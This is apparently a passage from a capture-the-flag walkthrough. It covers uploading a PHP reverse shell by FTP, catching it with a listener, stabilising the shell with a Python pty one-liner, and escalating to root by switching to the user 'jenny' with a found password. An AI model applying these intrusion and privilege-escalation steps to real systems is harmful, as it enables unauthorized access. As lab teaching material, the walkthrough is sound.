 ```bash
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
226 Directory send OK.
ftp> bye
221 Goodbye.
```

### 3.3 - Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.

Now, we need to listen on the port setted on reverse shell, and access to machine.

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

As you can see, this shell is not stable. So, we can use the traditional Python script to make it more stable.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")' 
```

### 3.4 - Become root!

We know that www-data user haven't root privileges. But we also know that Jenny has root privileges on the machine. So, let us change the user to Jenny and become root.\


```bash
whoami
www-data
www-data@wir3:/$ su jenny
su jenny
Password: 987654321

jenny@wir3:/$ sudo -l
sudo -l
[sudo] password for jenny: 987654321

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
```